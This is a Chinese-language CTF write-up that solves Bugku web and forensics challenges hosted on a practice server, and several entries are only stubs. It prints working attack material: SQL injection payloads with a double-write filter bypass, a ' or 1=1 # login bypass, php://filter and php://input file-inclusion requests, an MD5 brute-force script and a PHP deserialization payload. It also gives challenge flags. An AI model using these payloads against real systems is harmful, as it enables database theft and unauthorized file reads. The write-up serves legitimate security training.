#### 1、web1  ok

http://123.206.31.85:10001/



```
http://123.206.31.85:10001/?a=&b=   即可出flag  此时c和a都为空值

```


#### 2、[流量分析.rar]( https://new.bugku.com/upload/流量分析.rar) ok



直接查看tcp流就可以看到，简单到难以相信

#### 3、web11 ok 

 http://123.206.31.85:3030/


思路 标题是robots   于是就在地址栏输入 url/robots.txt   


上脚本

```
url = 'http://123.206.31.85:3030/shell.php'
s = requests.Session()
r = s.get(url)
res = r.text.encode(r.encoding).decode()

a = res.find(') =')
b = res.find('<', a)
res_md5 = res[a+4:b]
#print(res_md5)
for i in range(100000000000):
    str_md5 = hashlib.md5(str(i).encode(encoding='utf-8')).hexdigest()
    if str_md5[:6] == res_md5:
        url = "http://123.206.31.85:3030/shell.php?password={}".format(i)
        r = s.get(url)
        print(r.text)
        break
        #print(i)
#运行即可得到flag       
#flag{e2f86fb5f7********f4957d89aaca0}

```


#### 4、[web13 ok ](  http://123.206.31.85:10013/)


做的时候以为是命令执行，尝试一同无果，随便抓包看了一下，


把上面的base64解密发现是flag{****}提交错误(提交了好多次，以为系统错误，`(*/ω＼*)`)。然后尝试提价flag里的内容。ctf的提示不都是误导哈，看见的未必是真的，然后提交flag包裹的内容，提示太慢，然后就脚本喽



```
import requests
import base64

url = "http://123.206.31.85:10013/index.php"
# pwd = '69ca7eed78620041ba5a14deb44d29d8'天真的以为这个不变(*/ω＼*)
r = requests.session()

res = r.post(url, data={'password': "123"})
#print(res)
pwd = res.headers['Password']
#print('****', pwd)

pwd = str(base64.b64decode(pwd))[7:-2]
#print("**", pwd)

res = r.post(url, data={'password': pwd})

print(res.text)

#flag{FjXAkdGn*********jInY2VndLSg}

```

#### 5、Sql injection  [web18  ok](  http://123.206.31.85:10018/)

双写绕过，select=>selselectect ,anandd,ununionion、注意information    包含or 也要双写


```
爆数据库
?id=-1' uniunionon selselectect 1,2,group_concat(schema_name)from infoorrmation_schema.schemata--+
得到:information_schema,web18.

爆表：
?id=-1' uniunionon selselectect 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='web18'--+
得到: ctf,flag.

爆列：
?id=-1' uniunionon selselectect 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='flag'--+
得到：id,flag.

爆字段：
?id=-1' uniunionon selselectect 1,2,flag from flag--+

```




#### 6、web20   ok

http://123.206.31.85:10020/

```
import re
import requests

url = 'http://123.206.31.85:10020/'
s = requests.session()
r = s.get(url)
res = r.text.encode(r.encoding).decode()
print(res)

key = re.findall(r'[0-9a-z]+', res)[0]
url2 = url + '?key=' + key
r2 = s.get(url2)
res2 = r2.text.encode(r2.encoding).decode()
print(res2)
#多次提交没得到flag 看了wp才知道 在多试试

#由于要多次提交，改了一下
import re
import requests

while True:
    url = 'http://123.206.31.85:10020/'
    s = requests.session()
    r = s.get(url)
    res = r.text.encode(r.encoding).decode()
    # print(res)

    key = re.findall(r'[0-9a-z]+', res)[0]
    url2 = url + '?key=' + key
    r2 = s.get(url2)
    res2 = r2.text.encode(r2.encoding).decode()
    if "密文" not in res2:
        break

print(res2)


```





#### 7、Web25  ok

 http://123.206.31.85:10025/



这道题emmmmm 做完真想说**TMD**， 首先进去如上图  进去下面的链接是一个下载的html页面，但是下载不成功，修改下载路径，到根目录


然后将他作为字典在bp跑了一下，没有出flag。然后用御剑扫到了一个 shell.php的页面，然后在这个页页面在进行尝试字典，成功出flag。(事实上我在**gui zhi dao zhe shi sha** 考虑了许久，以为他是提示，毕竟他们都是三个字母`(*/ω＼*)`，甚至用那些字母爆破了许久)


flag{ee90585a68b88bcd}

#### 8、web3  ok

 http://123.206.31.85:10003


在文件上传用了不少时间，除了正常图片其他都没上传成功，根据 op 后的传不同的值返回不同页面，可能存在文件包含

```
http://123.206.31.85:10003/?op=f   返回Error  no such page
http://123.206.31.85:10003/?op=flag  返回正常 即存在flag页面
```

php伪协议   参考这两篇 篇文章讲的php伪协议https://www.freebuf.com/column/148886.html

https://blog.csdn.net/Ni9htMar3/article/details/69812306?locationNum=2&fps=1

```
?op=php://filter/read=convert.base64-encode/resource=flag  base64解码后即可得到flag
```


#### 9、web4   ok

 http://123.206.31.85:10004/

#### 


```
万能密码登录    ' or 1=1 #  在用户名和密码输入均可
flag{7ae7de60f14eb3cbd9403a0c4328598d}
```

#### 10、web8  SimpleSQLI     just ok

​    http://123.206.31.85:10008


随意注册登录后，进入到信息更新页面，由于age 是纯数字不用考虑闭合引号  于是再此进行SQL注入。注入页面在 

 http://123.206.31.85:10008/?updata.php  post提交  注意每次提交时带上  taken

```
nickname=Lamber%27123&age=(select group_concat(schema_name) from information_schema.schemata)&description=users213213&token=c784fca1866144c8f4a46c8f848a751f
#得到information_schema,web8

nickname=Lamber%27123&age=(select group_concat(table_name) from information_schema.tables where table_schema=database())&description=users213213&token=0b22b45bcea23019fb75625fbcbabefd
#得到一张表明  users

nickname=Lamber%27123&age=(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)&description=users213213&token=4ac637c081b03611c0fed94a0282974d
#所有列  id,username,password,nickname,age,description

nickname=Lamber%27123&age=(select group_concat(username) from (select * from users )x)&description=users213213&token=250faaa4f220ddfb3fed6a8213160014
# 逐一查看列值 无flag              啊啊啊啊疯了  flag 应该被删了

#所有用户 adasdasdas,asdfsadfads,4410,5146,6720,4634,3380,4306,156,7675,1518,7182,4028,3064,6501,4924,8922, admin,11,x3nd,123,aaa,admin                                                               ，
#所有密码
e10adc3949ba59abbe56e057f20f883e（123456）,e10adc3949ba59abbe56e057f20f883e（123456）,e10adc3949ba59abbe56e057f20f883e,e10adc3949ba59abbe56e057f20f883e,e10adc3949ba59abbe56e057f20f883e,e10adc3949ba59abbe56e057f20f883e,e10adc3949ba59abbe56e057f20f883e,e10adc3949ba59abbe56e057

nickname=Lamber%27123&age=(select group_concat(username) from (select * from users )x)&description=users213213&token=e13650ed0479b1691a13784028c081e5
```

审查元素看一看到返回值和taken值





#### 11、 [web15](  http://123.206.31.85:10015/)   ok

vim编辑器



根据提示想到文件备份泄露，，用工具扫到 存在 index.php~   (工具在gayhub  搜索SourceleakHacker)

下载后

```
<?php
header('content-type:text/html;charset=utf-8');
include './flag.php';
error_reporting(0);
if(empty($_GET['id'])){
    header('location:./1ndex.php');
}else{
	$id = $_GET['id'];
	if (!is_numeric($id)) {
		$id = intval($id);
		switch ($id) {
			case $id>=0:
				echo "快出去吧，走错路了～～～<br>";
				echo "这么简单都不会么？";
				break;
			case $id>=10:
				exit($flag);
				break;
			default:
				echo "你走不到这一步的!";
				break;
		}
	}
}

?>
```

根据代码判断，switch 为假时才能进入到 输出flag的语句。即让 $id=0  `intval()`当$id为字母时返回0

将id等于任意字母即可得到flag


#### 12、web22](  http://123.206.31.85:10022)




#### 13、[web21]( http://123.206.31.85:10021/)



F12看到如下代码

```
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```


尝试读取class.php

```
由于我的hackbar提交不了  才在bp 抓的包，并在post了admin   
GET /index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php HTTP/1.1
Host: 123.206.31.85:10021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.8,en;q=0.7,zh;q=0.5,zh-TW;q=0.3,zh-HK;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

admin
```



```
base64解密后 是一个序列化漏洞
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>

构造序列化脚本
<?php
/**
 * Created by PhpStorm.
 * User: 77843
 * Date: 2019/5/2
 * Time: 22:56
 */

error_reporting(E_ALL & ~E_NOTICE);

class Read{//f1a9.php
    public $file = "f1a9.php";
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
        }
        return "__toString was called!";
    }
}
$a = new Read;
echo serialize($a);
//O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}
```



#### 14、[Web23]( http://123.206.31.85:10023/)


#### 15、web7 吃个小饼干吗

  http://123.206.31.85:10007/


#### 16、web12 time好长呀 

http://123.206.31.85:10012/



#### 17、web24 [  find me]( http://123.206.31.85:10024/)


#### 18、web10 JWT你需要了解一哈 

 http://123.206.31.85:3032/L3yx.php


#### 19[web19]( http://123.206.31.85:10019/)


#### 20、学会如来神掌应该就能打败他了吧 [web16]( http://123.206.31.85:1616/)


按难度梯度排序最先最难

写两篇自己觉得有必要写的题目 写一下wp

也可以写其他 平台的题目，一起进步哈~


#### 下面是日志分析





666C61677B6D6179697961686569313936356165373536397D
